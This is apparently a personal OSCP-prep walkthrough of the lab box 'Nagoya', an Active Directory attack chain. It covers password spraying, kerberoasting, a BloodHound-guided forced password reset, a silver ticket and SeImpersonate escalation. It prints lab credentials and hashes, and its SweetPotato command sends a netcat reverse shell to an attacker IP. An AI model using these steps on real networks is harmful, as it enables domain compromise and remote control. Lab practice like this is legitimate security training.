

**Start 16:06 15-05-2025**

---
```
Scope:
192.168.169.21
```
## Recon

### Nmap

```bash
PORT      STATE SERVICE           REASON  VERSION
53/tcp    open  domain            syn-ack Simple DNS Plus
80/tcp    open  http              syn-ack Microsoft IIS httpd 10.0
|_http-favicon: Unknown favicon MD5: 9200225B96881264E6481C77D69C622C
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Nagoya Industries - Nagoya
88/tcp    open  kerberos-sec      syn-ack Microsoft Windows Kerberos (server time: 2025-05-15 14:08:14Z)
135/tcp   open  msrpc             syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn       syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap              syn-ack Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?     syn-ack
464/tcp   open  kpasswd5?         syn-ack
593/tcp   open  ncacn_http        syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?          syn-ack
3268/tcp  open  ldap              syn-ack Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl? syn-ack
3389/tcp  open  ms-wbt-server     syn-ack Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: NAGOYA-IND
|   NetBIOS_Domain_Name: NAGOYA-IND
|   NetBIOS_Computer_Name: NAGOYA
|   DNS_Domain_Name: nagoya-industries.com
|   DNS_Computer_Name: nagoya.nagoya-industries.com
|   DNS_Tree_Name: nagoya-industries.com
|   Product_Version: 10.0.17763
5985/tcp  open  http              syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf            syn-ack .NET Message Framing
49666/tcp open  msrpc             syn-ack Microsoft Windows RPC
49668/tcp open  msrpc             syn-ack Microsoft Windows RPC
49676/tcp open  ncacn_http        syn-ack Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc             syn-ack Microsoft Windows RPC
49681/tcp open  msrpc             syn-ack Microsoft Windows RPC
49691/tcp open  msrpc             syn-ack Microsoft Windows RPC
49698/tcp open  msrpc             syn-ack Microsoft Windows RPC
49717/tcp open  msrpc             syn-ack Microsoft Windows RPC
```


### 80/TCP - HTTP


We then check the `/Team` tab and notice an absolutely enormous list of possible users.


Furthermore I only found one more endpoint:


### Making Wordlists

Either way I went ahead and put all the team members inside a `team.txt` file, then used `username-anarchy` to create potential usernames out of it, after which I used `kerbrute` to verify the existing usernames on the domain:



I then used the following command to overwrite my original `users.txt` file with only the valid accounts:


Now that we have a wordlist of usernames we need to make a wordlist of passwords, only natural right?

:::note
Yeah not gonna lie I was never gonna guess this one but [this walkthrough helped me](https://medium.com/@carlosbudiman/oscp-proving-grounds-nagoya-hard-active-directory-bd548b5a740d):

:::


Guess that's some *REAL* outside of the box thinking here.

## Password Spraying

Now that we had a set of matching creds we could go ahead and start spraying the creds to see what's up.


Well that settles that let's check out the SMB shares as well as RDP in.

### 445/TCP - SMB


I ended up getting them all and checking them out.


### Reverse Engineering

Obviously we aren't able to read the other files using `cat` since they're `.exe` and `.dll` files, so instead we use the `strings` command:


Well look at that we found another user!

```
svc_helpdesk
U299iYRmikYTHDbPbxPoYYfa2j4x4cdg
```

## Kerberoasting

I now had another valid set of creds so I could kerberoast sine creds:


From this I was able to gather the `svc_mssql` user.

We can now go on to crack the hashes using `john`:


```
svc_mssql
Service1
```

## BloodHound
### Set Up


I use the above and find a bunch of data which I can now ingest in my browser:


Once ingested I go ahead and get everything organized, let's see who we need to reach and how.


From here we see only one user that has access to interesting groups:


I check out the options of abuse here:


I end up choosing the **Force Change Password** method and see if it hopefully works:

```bash
net rpc password "christopher.lewis" "Pass@123" -U 'nagoya-industries.com'/'svc_helpdesk'%"U299iYRmikYTHDbPbxPoYYfa2j4x4cdg" -S "192.168.169.21"
```


:::success
Well shit it seemed to work!
:::

## Foothold
### Shell as Christopher


We now finally had access and could start the rest of our enumeration process.


Shit.

### local.txt


That's a first? 

:::caution
It was here that I was getting stuck because I didn't know what to do next, I tried the `mssql` RCE approach but that didn't work.
:::

## Silver Ticket

:::note
Since I've never done this before I heavily checked a walkthrough here.
:::

The premise would look like this:


To do this we need the following:

- SPN password hash,  
- Domain SID,  
- and Target SPN of the service account you’ve compromised

### Domain SID


```
S-1-5-21-1969309164-1513403977-1686805993
```

### SPN Password Hash


```
E3A0168BC21CFB88B95C954A5B18F57C
```

### Target SPN service account


```
MSSQL/nagoya.nagoya-industries.com
```

### Putting it all Together


We check if it is stashed correctly using `klist`:


We will then issue the following command:

```bash
export KRB5CCNAME=$PWD/Administrator.ccache
```

And now create this file:

```bash
# /etc/krb5user.conf
[libdefaults]
        default_realm = NAGOYA-INDUSTRIES.COM
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
    rdns = false
    dns_canonicalize_hostname = false
        fcc-mit-ticketflags = true

[realms]
        NAGOYA-INDUSTRIES.COM = {
                kdc = nagoya.nagoya-industries.com
        }

[domain_realm]
        .nagoya-industries.com = NAGOYA-INDUSTRIES.COM
```


Once that is done we can move on to port forwarding and gaining access via `mssql`.

## Port Forward

This is the easy part:


Once we've set all the above we can access the `mssql` client via the port forward IP `240.0.0.1`:

## MSSQL

In order to gain access as *Admin* to the port forwarded `mssql` client we need to add the host to `/etc/hosts`:


Now we can access it on the port forward address.


:::important
Be sure to access it via the same terminal window where you cached the ticket!
:::


And now we can execute arbitrary commands such as a reverse shell!


## Privilege Escalation
### SeImpersonatePrivilege

This was pretty simple (at last):


We just need to spam potatoes until one of em works.

I used `SweetPotato` here with the following command using `nc.exe`:

```bash
./sweet.exe -p PrintSpoofer -p nc.exe -a '192.168.45.154 8000 -e cmd'
```


From here it was piece of cake

### proof.txt


---

**Finished 08:41 16-05-2025**

[^Links]: [[OSCP Prep]]

